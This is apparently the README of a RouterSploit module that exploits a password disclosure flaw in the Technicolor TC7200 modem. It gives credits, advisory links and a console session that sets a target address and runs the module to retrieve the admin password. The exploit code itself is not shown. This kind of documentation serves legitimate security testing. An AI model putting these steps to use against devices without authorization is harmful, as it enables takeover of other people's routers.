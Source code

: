# Technicolor TC7200 Password Disclosure

## Description
Module exploits Technicolor TC7200 password disclosure vulnerability which allows fetching administration's password.

## Authors
* Gergely Eberhardt (@ebux25) from SEARCH-LAB Ltd. (www.search-lab.hu) # vulnerability discovery
* 0BuRner # routersploit module

## References
* [https://www.exploit-db.com/exploits/40157/](https://www.exploit-db.com/exploits/40157/)
* [http://www.search-lab.hu/advisories/secadv-20160720](http://www.search-lab.hu/advisories/secadv-20160720)

## Vulnerable devices
* Technicolor TC7200

## Usage
```
rsf > use exploits/technicolor/tc7200_password_disclosure_v2
rsf (Technicolor TC7200 Password Disclosure) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (Technicolor TC7200 Password Disclosure) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Technicolor TC7200 Password Disclosure) > run
[*] Running module...
```
